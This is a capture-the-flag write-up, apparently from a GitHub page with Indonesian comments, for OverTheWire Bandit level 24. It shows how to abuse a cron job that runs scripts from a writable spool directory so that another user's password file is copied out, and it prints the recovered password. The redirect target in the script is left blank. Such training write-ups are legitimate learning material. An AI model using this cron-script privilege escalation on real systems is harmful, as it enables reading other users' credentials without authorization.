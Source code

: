 ```yaml
---
layout: level
level: 24
previous: ./level 23.html
next: ./level 25.html
---
```


# soal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level! \
NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

# solve
- check cronjob file
```bash
cd /etc/cron.d
cat cronjob_bandit24
# @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
# * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

- check the file ````cat /usr/bin/cronjob_bandit24.sh```
```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

# disini jika saya teliti di file ini akan pergi ke location folder tertentu dulu /var/spool/$myname/foo
# setelah itu dia akan melakuakn looping pada semua file di dalamnya
# dan akan mengekseskusinya dan setelah itu menghapusnya
```

- check the permissions
```bash
ls -lad /var/spool/bandit24/foo
# drwxrwx-wx 23 root bandit24 4096 Dec 10 09:52 /var/spool/bandit24/foo
ls -la /var/spool/bandit24/foo
# ls: cannot open directory '/var/spool/bandit24/foo': Permission denied

## kita tidak memiliki akses read pada folder namun kita memiliki akses write yang artinya
## kita bisa menaruh file di directory tersebut yang nantinya akan di eksekusi oleh cronjob
```

- try create file tmp for location pass
```bash
echo -e "\n[+] output ----------" # debug
workdir=$(mktemp -d)
cd $workdir
touch pass

ls -lad $workdir
# drwx------ 2 bandit23 bandit23 4096 Dec 10 09:57 /tmp/tmp.wp45LLE77H
## disini bisa kita lihat bahwa tmp tersebut tidak bisa di write jadi kita perlu mengubah permissions nya juga

chmod -R 777 $workdir
ls -lad $workdir
# drwxrwxrwx 2 bandit23 bandit23 4096 Dec 10 09:57 /tmp/tmp.wp45LLE77H
ls -la pass

echo -e "\n[+] output ----------" # debug
echo -e "[+] change the dir write for $(pwd)/pass" # debug
```

- try executable fro cat the pass
```bash
cd /var/spool/bandit24/foo
cat > cat_pass << EOF
#!/bin/bash

cat /etc/bandit_pass/bandit24 > # the path
EOF

ls -la cat_pass
chmod 777 cat_pass
cat $workdir/pass
```

- tunggu hingga file terhapus, dan pass terisi
```bash
ls -la cat_pass
# -rwxrwxrwx 1 bandit23 bandit23 81 Dec 10 10:17 cat_pass
cat $workdir/pass

ls -la cat_pass
# ls: cannot access 'cat_pass': No such file or directory
cat $workdir/pass
# gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

## jika masihh gagal kemungkinan kesalahan di permissions
## atau di location file
```

# flag
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
